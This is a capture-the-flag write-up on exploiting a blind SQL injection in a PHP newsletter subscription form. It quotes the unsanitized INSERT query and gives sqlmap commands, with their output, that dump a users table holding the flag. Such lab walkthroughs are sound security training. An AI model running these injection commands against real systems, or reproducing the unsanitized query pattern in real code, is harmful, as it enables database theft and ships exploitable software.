 # Web: Consult Pros

The Consult Pros agency has hired you to pentest their portfolio website to discover any sensitive security issues they might have on their platform. Can you review their application and find out any vulnerabilities?

**Target**: 104.248.162.85:31489

---
First of all we inspect the files included in the resource. We observe that there is a local SQL database (MariaDB) with some tables:

- Subscribers (id, email, subscribedat, pk) -> only the email is needed to create a new record, the other fields are generated automatically.
- Users (id, username, password, pk)

The IDs are auto-incremental integer numbers. Also, there is a default user included in the table `users`: `'admin', 'HTB{f4k3_fl4g_f0r_t3st1ng}'`. That gave us the clue that the flag we are looking for is in that table.

Now we are going to inspect the traffic with Burp. First of all, we update the scope so that only the requests/responses from or to the target are intercepted. To continue we inspect the web page. It is a simple web page with some auto-referenced hrefs. At the end of the page there is a form to subscribe to the newsletter. Maybe we can do somekind of injection with in this form. Let's inspect the request.

```http
POST /subscribe HTTP/1.1
Host: 104.248.162.85:31489
Content-Length: 22
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://104.248.162.85:31489
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://104.248.162.85:31489/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

email=test%40email.com


HTTP/1.1 302 Found
Server: nginx
Date: Wed, 21 Sep 2022 12:22:45 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
X-Powered-By: PHP/7.4.26
Location: /?success=true&msg=Email subscribed successfully!
Content-Length: 0



GET /?success=true&msg=Email%20subscribed%20successfully! HTTP/1.1
Host: 104.248.162.85:31489
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://104.248.162.85:31489/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```
A 'success' message appears in the page before it is refeshed, but we cannot see our input reflected in the page. Thus it seems to be some kind of blind injection. We need more information to know how can we trick the server to inject code.

When we inspect the source code of the page, we see that `SubsController.php` calls the function `$subscriber = new SubscriberModel; $subscribed = $subscriber->subscribe($email);`, where the email is a parameter included in the POST request (`$email = $_POST['email'];`).

In the file `SubscriberModel.php` the insertion into the DB is done (`return $this->database->query("INSERT INTO subscribers(email) VALUES('$email')");`). No sanitization at all! Therefore, all the clues point out to a blind SQL injection.


Vemos que el parametro email se inyecta entre comillas simples
We observed that the parameter 'email' is inyected within simple quotes (`INSERT INTO subscribers(email) VALUES('$email')");`) so we need to escape them ([port-swigger blind SQL injection](https://portswigger.net/web-security/sql-injection/blind)).

After some manual test we decide to use the tool `sqlmap`, a tool that allows to detect SQL injectable fields and also to exploit them, being able to retrive information from the database. When we execute it, it begins by testing if the fields/forms are injectable. They are! More specifically, time-based SQL injection.


First we will get the name of the current DB. It will be useful for further commands.
```
python3 sqlmap -u http://104.248.162.85:31489/ --data="email=test33@gmail.com" -p email --current-db

[...]

Database: consult
```

Then we list all the tables included in this DB: 
```
python3 sqlmap -u http://104.248.162.85:31489/ --data="email=test33@gmail.com" -p email -D consult --tables

[...]

2 tables: `subscribers` and `users`
```

Lets dump the `users` table, according to o ur first assumption:
```
python3 sqlmap.py -v -u http://104.248.162.85:31489/subscribe --data="email=test33@gmail.com" -p email -D consult -T users --dump

Database: consult
Table: users
[1 entry]
+----+-------------------------------+----------+
| id | password                      | username |
+----+-------------------------------+----------+
| 1  | HTB{1nj3c7_1n_4ll_HTTP_v3rb5} | admin    |
+----+-------------------------------+----------+
```

Finally, we got the flag.

